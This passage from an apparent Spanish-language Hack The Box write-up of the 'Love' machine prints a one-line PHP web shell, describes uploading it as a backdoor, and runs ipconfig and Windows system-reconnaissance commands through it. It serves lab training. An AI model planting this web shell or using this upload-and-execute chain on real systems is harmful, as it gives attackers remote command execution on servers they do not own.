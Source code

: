 ```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

<p align="center">
  <img src="hhttps://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/cd34c83e-613f-46c8-8815-345a70a62d2a">
</p>

<p align="justify">
  Subimos el archivo y confirmamos que nuestro backdoor fue aceptado. Ahora podemos buscar la ruta de las imágenes para verificar la ejecución remota de comandos.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/5058507d-d636-43d5-8278-54f051d9a947">
</p>

<p align="justify">
  En el código fuente nos muestra el archivo "cmd.php" se encuentra en http://love.htb/images/.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/fd926399-45b7-4b44-843b-e2b0cb5f0337">
</p>

<p align="justify">
  Es importante tener en cuenta que estamos realizando el ataque en un sistema Windows al introducir los comandos a ejecutar.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/fbca0281-b97d-4ad3-9a64-68cb07cf68d3">
</p>

```go
https://love.htb/images/cmd.php?cmd=ipconfig
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/8fbf796f-0498-469f-a341-27b66f88457d">
</p>

<p align="justify">
  Ahora disponemos de la capacidad de ejecutar comandos de forma remota, lo que nos permite crear un payload adecuado. Sin embargo, antes de proceder con la creación, es esencial conocer la arquitectura del sistema. Para lograr esto, empleamos el siguiente procedimiento:
</p>

```powershell
wmic os get osarchitecture
systeminfo
systeminfo | findstr /C:"System Type"
```
